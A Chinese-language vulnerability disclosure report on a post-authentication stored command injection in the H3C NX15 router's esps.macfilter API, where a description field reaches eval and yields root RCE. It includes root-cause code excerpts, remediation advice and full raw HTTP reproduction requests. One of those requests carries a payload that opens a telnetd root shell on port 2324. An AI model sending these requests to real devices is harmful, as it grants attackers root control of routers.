





# H3C NX15 R017 `esps.macfilter.add` -> `getlist` 存储型 root RCE 报告

## 一、漏洞概述

H3C NX15 路由器 NX15V100R017 固件对外提供 `POST /api/esps` 接口。外部请求经 Web/FastCGI 进入 `/www/api` 后，在已认证场景下会根据 `PATH_INFO=/esps` 进入 `FCGI_EspsProcess`，再由 Lua 协议转换层将请求中的 `object`、`method`、`param` 映射为 ubus 调用。

当请求对象为 `esps.macfilter` 时，后端会进入 `/usr/libexec/rpcd/esps.macfilter`。其中：

- `add` 方法可将攻击者可控的 `description` 原样写入 UCI 配置；
- `getlist` 方法在读取该配置时使用 `eval` 重新解释 `description`；
- 当 `description` 中预先写入 `$(...)` 形式的命令替换表达式时，命令会在 `getlist` 读取阶段被执行。

本次动态验证已成功通过该链路拉起临时 shell，并得到 `uid=0(root)`，因此该问题可定性为一条 **后认证、存储型、root 远程命令执行漏洞**。

---

## 二、影响范围

- 厂商：H3C
- 产品：H3C NX15 路由器
- 影响版本：NX15V100R017 / R017
- 漏洞类型：存储型命令注入 / root 远程命令执行
- 认证要求：需要管理员 Web 会话
- 外部接口：`POST /api/esps`
- FastCGI 内部路径：`PATH_INFO=/esps`
- 前端处理二进制：`/www/api`
- 漏洞对象：`esps.macfilter`
- 漏洞方法链：`add` -> `getlist`
- 注入字段：`description`
- 验证结论：Confirmed / Exploited

---

## 三、请求分发与完整漏洞链路

### 1. 认证与入口

攻击者先通过登录接口获取管理员 session：

```text
POST /api/login/auth
```

后续访问 `POST /api/esps` 时，在请求头中携带：

```text
AUTHENTICATION: <session>
```

### 2. 前端 API 分发链

`/www/api` 对 `/api/esps` 的处理链路如下：

```text
POST /api/esps
  -> /www/api
  -> PATH_INFO=/esps
  -> FCGI_EspsProcess
  -> lua /usr/lib/lua/protol_cvt.lua magic_link '<request-body>'
  -> /usr/lib/lua/magic_link/magic_link.lua
  -> ubus call esps.macfilter <method> <param>
  -> /usr/libexec/rpcd/esps.macfilter
```

### 3. 漏洞利用顺序

完整利用链如下：

1. 攻击者登录 Web 管理后台，获取管理员 session。
2. 调用 `POST /api/esps`，提交：

   ```text
   object = esps.macfilter
   method = add
   ```

3. 在 `description` 字段中写入恶意 `$(...)` payload。
4. 后端脚本将恶意 `description` 保存到 UCI 配置项 `webrestriction.macbind_<id>.description`。
5. 攻击者再次调用 `POST /api/esps`，提交：

   ```text
   object = esps.macfilter
   method = getlist
   ```

6. `getlist` 遍历配置项时，对 `description` 执行 `eval`，触发命令替换。
7. 命令以 root 权限执行，攻击者可获得设备控制权。

---

## 四、根因分析

### 1. `/www/api` 在认证后将 `/esps` 请求交给 Lua/ubus 层

在 `www/api` 二进制中，`main` 函数的关键逻辑为：

- 读取 `PATH_INFO`
- 读取 `HTTP_AUTHENTICATION`
- 调用 `FCGI_UserAuth(...)` 校验管理员 session
- 当 `PATH_INFO` 以 `"/esps"` 开头时，进入 `FCGI_EspsProcess(...)`

这说明：

- `/esps` 路由位于认证检查之后；
- 当前漏洞链明确属于 post-auth；
- `/www/api` 不是直接在 C 层完成对象调度，而是继续进入 `FCGI_EspsProcess`。

`FCGI_EspsProcess` 的关键逻辑为：

- 读取 `CONTENT_LENGTH` 与 HTTP body；
- 将请求体拼接为：

  ```text
  lua /usr/lib/lua/protol_cvt.lua magic_link '<request-body>'
  ```

- 随后通过 `popen` 执行该 Lua 协议转换脚本。

因此，`/api/esps` 的请求体会先进入 Lua 协议转换层，再被映射成 ubus 调用。

### 2. Lua 协议转换层将 `object` / `method` / `param` 映射为 ubus 调用

固件路径：

- `/usr/lib/lua/protol_cvt.lua`
- `/usr/lib/lua/magic_link/magic_link.lua`

`protol_cvt.lua` 关键逻辑：

- 第 `9-11` 行：读取 `proto`、`method`、`para`
- 第 `25-27` 行：解码请求 JSON
- 第 `50-56` 行：在 `magic_link` 模式下直接解析整个请求数组
- 第 `77` 行：`local ubuscmd = methodObj.find_ubus_cmd(method_para_info)`
- 第 `89` 行：`local conn = ubus.connect()`
- 第 `117` 行：`data.result = conn:call(v.path, v.func, v.args)`

`magic_link.lua` 关键逻辑：

- 第 `12-25` 行：遍历请求数组中的每个对象
- 第 `18`、`25` 行：分别将
  - `v.object` 映射为 ubus `path`
  - `v.method` 映射为 ubus `func`
  - `v.param` 映射为 ubus `args`

因此，当外部提交：

```json
{"object":"esps.macfilter","method":"getlist","param":{}}
```

最终会转换成对 ubus 对象 `esps.macfilter` 的 `getlist` 调用。

### 3. 写入阶段：`description` 原样入库

后端脚本路径：

- `/usr/libexec/rpcd/esps.macfilter`

`add)` 分支的关键代码如下：

- 第 `364-365` 行：

```sh
json_get_var tmpMac mac
json_get_var _description description
```

- 第 `379` 行：

```sh
code=$(macfilter_additem "${_mac}" "${_description}")
```

`macfilter_additem()` 中的关键落盘点：

- 第 `195` 行：

```sh
uci set webrestriction.macbind_"${_id}".description="${description}"
```

这说明：

- `description` 直接来自 HTTP JSON 输入；
- 该值未经过严格危险字符白名单过滤；
- `$(...)`、反引号等 shell 语法有机会原样写入 UCI。

### 4. 触发阶段：`getlist` 读取 `description` 时执行 `eval`

`getlist)` 分支的关键逻辑：

- 第 `553-559` 行：

```sh
config_load webrestriction
config_foreach macfilter_getAllitem macbind
```

真正的触发点位于 `macfilter_getAllitem()`：

- 第 `61-63` 行：

```sh
if [ -n "$(uci get webrestriction."$1".description)" ] ;then
    eval webrestriction_remark_list"${idx}"="$(uci get webrestriction."$1".description)"
fi
```

同样的逻辑还出现在另外两个分支：

- 第 `75-77` 行
- 第 `88-90` 行

因此，这不是单一路径误用，而是 `getlist` 读取 `description` 时的通用实现缺陷。

如果 UCI 中的 `description` 为：

```sh
$(COMMAND)
```

那么 `eval` 会将其重新解释为 shell 赋值语句，内部的命令替换表达式会在此时被执行。

### 5. 回显阶段只是结果输出，不是主执行点

`getlist)` 在输出 JSON 时还会继续读取这些变量：

- 第 `573-575` 行：

```sh
json_add_int "id" "$(eval echo '$'webrestriction_id_list"${i}")"
json_add_string "description" "$(eval echo '$'webrestriction_remark_list"${i}")"
json_add_string "mac" "$(eval echo '$'webrestriction_mac_list"${i}")"
```

这里的作用是将已处理后的变量回显给前端。真正的命令执行已经发生在前面的：

```sh
eval webrestriction_remark_list"${idx}"="$(uci get ...description)"
```

因此正式定性时应明确：

- 主执行点：`macfilter_getAllitem()` 的 `eval` 赋值
- 回显点：`getlist)` 的 `json_add_string "description" ...`

### 6. 为什么返回中的 `description` 往往为空字符串

这是本漏洞的重要现象，建议单独说明。

若攻击者存入：

```sh
$(touch /tmp/pwned)
```

则在 `getlist` 时，shell 实际会重新解释为：

```sh
webrestriction_remark_list1=$(touch /tmp/pwned)
```

由于 `touch` 这类命令通常没有标准输出，因此命令虽然已经执行，但变量值最终为空。

所以当 `getlist` 的返回中出现：

```json
"description":""
```

并不代表利用失败，反而与“命令已执行、但无 stdout”这一行为完全一致。

---

## 五、固件内定位路径

以下路径均为固件根文件系统中的内部路径，便于审计定位：

- `/www/api`：FastCGI Web API 二进制，读取 `PATH_INFO` 和 `HTTP_AUTHENTICATION`，处理 `/esps` 路由并启动 Lua 协议转换层。
- `/usr/lib/lua/protol_cvt.lua`：协议转换脚本，负责解析请求体、加载 `magic_link` 模块并发起 ubus 调用。
- `/usr/lib/lua/magic_link/magic_link.lua`：将 `object` / `method` / `param` 转换为 ubus `path` / `func` / `args`。
- `/usr/libexec/rpcd/esps.macfilter`：实际漏洞后端脚本，`add` 分支写入 `description`，`getlist` 路径读取配置并执行 `eval`。
- `/etc/config/webrestriction`：UCI 配置文件，保存 `webrestriction.macbind_*` 表项及其 `description` 字段。
- `/usr/sbin/uci`：后端脚本使用的 UCI 配置读写工具。

---

## 六、复现步骤

###  BurpSuite Repeater 原始成功请求序列

除 PoC 自动化验证外，本次还通过 BurpSuite Repeater 手工逐包完成了一次成功复现。  
需要说明两点：

1. `AUTHENTICATION` 头中的 session 为运行时动态值，每次登录都会变化；
2. 以下序列保留了一次实际测试时使用的原始请求结构，其中前半段使用 session `7dc4ea71`，后半段在重新登录后使用新的有效 session `162e15d7`。

#### 6.1 登录请求

```http
POST /api/login/auth HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Connection: close
Content-Length: 44

{"username":"admin","password":"admin123"}
```

#### 6.2 基线 `getlist` 请求

该请求用于确认 session 有效，且 `esps.macfilter.getlist` 可以正常访问：

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: 7dc4ea71
Connection: close
Content-Length: 68

[{"id":1,"object":"esps.macfilter","method":"getlist","param":{}}]
```

#### 6.3 `add` 写入恶意 `description`

该请求将恶意 payload 写入 `description` 字段：

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: 7dc4ea71
Connection: close
Content-Length: 226

[{"id":1,"object":"esps.macfilter","method":"add","param":{"mac":"02:AA:BB:CC:EE:6D","description":"$(echo${IFS}MACFILTER_RCE_OK>/tmp/macfilter_rce_marke_2324r&&/usr/sbin/telnetd${IFS}-p${IFS}2324${IFS}-l${IFS}/bin/sh)"}}]
```

该请求的利用目的为：

- 在 UCI 中写入恶意 `description`
- 创建 marker 文件 `/tmp/macfilter_rce_marke_2324r`
- 拉起 `2324/tcp` 临时 shell

#### 6.4 重新登录后再次调用 `getlist` 触发

在本次实际测试中，后续触发阶段使用了重新登录获得的新 session `162e15d7`。  
触发请求如下：

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: 162e15d7
Connection: close
Content-Length: 68

[{"id":1,"object":"esps.macfilter","method":"getlist","param":{}}]
```

该请求会进入 `macfilter_getAllitem()`，在读取配置中的 `description` 时触发：

```sh
eval webrestriction_remark_list"${idx}"="$(uci get webrestriction."$1".description)"
```

#### 6.5 清理恶意条目

验证完成后，使用 `delbymac` 删除测试中曾使用的 MAC 条目：

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: 162e15d7
Connection: close
Content-Length: 137

[{"id":1,"object":"esps.macfilter","method":"delbymac","param":{"list":["02:AA:BB:CC:EE:6B","02:AA:BB:CC:EE:6C","02:AA:BB:CC:EE:6D"]}}]
```


#### 6.6 Burp 手工复现结论

这组原始请求说明：

1. 使用 BurpSuite Repeater 即可完整复现，无需依赖脚本自动化；
2. `add` 与 `getlist` 的触发顺序与 PoC 完全一致；
3. 手工抓包与自动化 PoC 相互印证，进一步证明漏洞链真实可利用。

### 7. 使用附件 PoC 一键复现

附件 PoC 已包含登录、写入、触发、验证和清理过程：

```bash
python3 poc/15_postauth_esps_macfilter_getlist_rce.py \
  --base http://192.168.8.1 \
  --username admin \
  --password '<admin-password>' \
  --host 192.168.8.1 \
  --port 2323 \
  --cleanup
```

预期核心结果：

```text
uid=0(root)
MACFILTER_RCE_OK
```

---

## 七、验证结果

在 NX15V100R017 测试设备上，已成功完成以下验证：

1. 通过 `/api/login/auth` 获取管理员 session。
2. 在 `POST /api/esps` 中带 `AUTHENTICATION` 头访问 `esps.macfilter.add`。
3. 将恶意 `description` 成功写入 UCI 配置。
4. 调用 `esps.macfilter.getlist` 后，后端 `eval` 成功触发 payload。
5. `getlist` 返回中，恶意项的 `description` 为空字符串，符合命令替换已执行且无 stdout 的行为。
6. 成功连接临时 shell，并通过 `id` 验证得到 `uid=0(root)`。
7. 成功读取 `/tmp/macfilter_rce_marker`，证明 payload 已按预期执行。

因此，可确认该漏洞为：

- 已验证
- 可稳定触发
- 可获得 root 权限
- 具备存储型触发特征

---

## 八、危害说明

该漏洞可造成以下安全影响：

- 已认证攻击者获得 root 权限，可执行任意系统命令；
- 恶意 payload 被持久化在设备配置中，后续读取列表时可再次触发；
- 可用于植入后门、篡改配置、抓取敏感信息、持久化控制设备；
- 如果与其它未授权接管类漏洞组合，攻击者可进一步从未授权访问升级到 root 权限。

由于该问题属于“写入阶段存储、读取阶段触发”的 stored RCE，其隐蔽性高于单次请求即时触发的命令执行漏洞。

---

## 九、附件

- 报告：`report/17_postauth_esps_macfilter_getlist_rce_report.md`
- PoC：`poc/15_postauth_esps_macfilter_getlist_rce.py`

---

## 十、修复建议

建议从以下几个层面修复：

1. 禁止在读取配置结果时使用 `eval` 重新解释可控内容。
2. 对 `description` 等可控字段实施严格的字符白名单校验。
3. 在写入配置前拒绝 `$()`、反引号、管道符、重定向符、逻辑连接符等 shell 元字符。
4. 避免经由 shell 拼接和 shell 二次解释来处理业务数据，使用安全的数据结构直接进行 JSON 输出。
5. 对 `/api/esps` 暴露对象和方法进行更严格的白名单限制，并减少不必要的管理对象暴露面。
6. 审计 `esps.macfilter` 其它写入 `description` 的路径，例如 `modify` / `addCurUser`，确认是否存在同类变体链。
